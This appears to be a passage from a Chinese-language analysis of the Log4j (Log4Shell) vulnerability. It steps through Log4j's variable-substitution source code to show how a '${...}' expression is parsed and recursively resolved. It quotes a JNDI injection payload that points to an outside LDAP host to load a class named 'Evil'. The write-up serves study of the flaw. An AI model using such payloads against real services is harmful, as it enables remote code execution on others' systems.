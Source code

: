 ```java
                                            varName = varNameExpr.substring(0, i);
                                            varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                            break;
                                        }
                                    } else if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                        varName = varNameExpr.substring(0, i);
                                        varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                        break;
                                    }
                                }
                            }

                            // on the first call initialize priorVariables
                            if (priorVariables == null) {
                                priorVariables = new ArrayList<>();
                                priorVariables.add(new String(chars, offset, length + lengthChange));
                            }

                            // handle cyclic substitution
                            checkCyclicSubstitution(varName, priorVariables);
                            priorVariables.add(varName);

                            // resolve the variable
                            String varValue = resolveVariable(event, varName, buf, startPos, endPos);
```

`prefixMatcher`是`${`，`suffixMatcher`是`}`



在`final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);`判断是否匹配到`${`，得到偏移

同理得到`}`，然后截断给`varNameExpr`：

```java
                            String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);

```

此时的`varNameExpr`就是`jndi:ldap://121.5.169.223:39876/Evil`。

接着在这里又对`jndi:ldap://121.5.169.223:39876/Evil`调用一次`substitute`：

```java
                            if (substitutionInVariablesEnabled) {
                                final StringBuilder bufName = new StringBuilder(varNameExpr);
                                substitute(event, bufName, 0, bufName.length());
                                varNameExpr = bufName.toString();
                            }
```

